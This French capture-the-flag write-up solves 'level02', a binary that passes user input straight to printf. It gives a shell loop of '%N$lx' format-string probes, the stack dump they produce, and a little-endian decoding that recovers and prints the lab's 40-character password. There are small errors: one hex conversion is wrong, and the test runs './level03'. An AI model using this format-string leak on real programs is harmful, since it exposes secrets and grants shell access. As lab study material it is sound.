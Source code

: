 # LEVEL 02

Le binaire level02 ne contiens qu'une fonction main.

cette fonction appelle **open** de **"/home/users/level03/.pass"** suivie d'une comparaison menant à un **exit**, puis un **fread**.

Cela nous réstreint dans notre utilisation de GDB, mais on sais que le pass est stocker quelque-part dans la **stack**.

Le programme lit  lit 2 fois sur l'entrée standard via **fgets**.

la premiere string **login** est passé en premier argument à la fonction printf.

la deusième string **passwd** est comparé au fichier **level03/.pass** et si la comparaison réussie le programme lance un shell.

On peux via le **scipt** ci dessous récupérer dans un fichier les valeurs stocker dans la stack de la fonction main:

<pre>
#!/bin/sh
IDX=0
while [ $IDX -lt 361 ]
do
echo $IDX >> /tmp/hexmap
(python -c "print '%$IDX\$lx ' + '\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'  + '\n'") | ~/level02 | grep "access!" >> /tmp/hexmap
IDX=$((IDX+1))
echo $IDX
done
</pre>

En regardant le fichier créé on trouve un zone mémoire contenant 40 caractères suivie d'un \0:

<pre>
%0$lx  does not have access!
7fffffffe4f0  does not have access!
0  does not have access!
0  does not have access!
2a2a2a2a2a2a2a2a  does not have access!
2a2a2a2a2a2a2a2a  does not have access!
7fffffffe6e8  does not have access!
1f7ff9a08  does not have access!
...
100000000  does not have access!
0  does not have access!
756e505234376848  does not have access!
45414a3561733951  does not have access!
377a7143574e6758  does not have access!
354a35686e475873  does not have access!
48336750664b394d  does not have access!
0  does not have access!
20786c24383225  does not have access!
...
</pre>

On peux essayer de traduire cette string de 40 char.

On doit inverser la position de chaque valeur dans chaque zone mémoire pour passer de little endian à big endian.
Puis convertir les valeurs de l'hexa vers la **table ascii**:

<pre>


	little endian	 => big endian		 => str
1.	756e505234376848 => 4868373452506e75 => Hh74RPnu
2.	45414a3561733951 => 51397361354a4145 => Q9sa5JAE
3.	377a7143574e6758 => 58674e5743717a37 => XgNWCqz7
4.	354a35686e475873 => 7358476e68354a35 => sXGnh5J5
5.	48336750664b394d => d4394b6650673348 => M9KfPg3H
0 => length 40


passwd => Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
</pre>

En le testant:
<pre>
./level03
"test"
"Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H"
Greetings, test!
$>
</pre>